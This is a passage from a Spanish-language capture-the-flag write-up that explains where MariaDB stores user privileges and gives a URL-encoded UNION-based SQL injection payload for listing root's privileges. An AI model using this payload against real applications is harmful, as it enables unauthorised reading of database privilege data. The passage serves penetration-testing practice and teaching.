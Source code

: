 ![Write-up Image](images/Screenshot_9.png)

También podemos comprobar el usuario.
![Write-up Image](images/Screenshot_10.png)

Podemos ver donde se almacenan los privilegios del usuario en MariaDB.
https://mariadb.com/kb/en/information-schema-user_privileges-table/

Se almacena en `information-schema.user_privileges`
# Foothold
Este es el payload para filtar por los permisos de nuestro usuario `root@localhost`
`%0A100%27+union+select+1,group_concat(grantee,privilege_type),3,4,5,6,7,8+from+information_schema.user_privileges+where+grantee+like+%27%root%%27+--+-1`